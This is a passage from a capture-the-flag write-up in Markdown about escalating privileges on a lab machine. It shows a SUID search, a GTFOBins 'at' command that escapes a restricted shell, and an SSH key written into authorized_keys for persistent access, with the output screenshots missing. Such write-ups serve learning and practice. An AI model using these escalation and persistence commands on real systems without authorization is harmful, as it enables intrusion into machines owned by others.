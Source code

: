  Then setting the TERM so that you are able to clean the terminal:
 ```bash
 export TERM=xterm
 ```
  
  Having the shell as a regular user  we can find the ``user.txt``  in `matt`

## Privilege Escalation
2>/dev/null is used to discard errors, it will always be used in conjunction with other commands.
so i used this command to get the error.

#### code-dev/null
```bash
find / -perm -u=s 2> /dev/null
```

#### output

![[dev.png]]

i found a backup at `/usr/bin/pandora_backup`  so i decide to run it with but i got an error with sudo 

#### code-backup
```bash
 sudo /usr/bin/pandora_backup
```


#### output

![[sudo.png]]

After getting this shell, it was clear that I was in some kind of restricted environment because the sudo command gave a strange response  So, amongest other things  I checked the binaries for suid bits, and found the `/usr/bin/at` with suid set. `/ust/bin/at` [is on GFTobins](https://gtfobins.github.io/gtfobins/at/#sudo) and should allow us to move out of our restriction. 

#### code-make sudo active
```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

#### ouptput

![[sudo1.png]]

I also elevated to an interactive shell with python3 as  in **Takeover**

we need a more stable shell Since we don't have matt's password, we can't log in directly with ssh, and we haven't found the ssh key, so we generate one ourselves.so that we can ssh at any time.

#### code-ssh
```bash
ssh-keygen
cd .ssh
ls
cat id_rsa.pub > authorized_keys
chmod +x authorized_keys
cat id_rsa
```
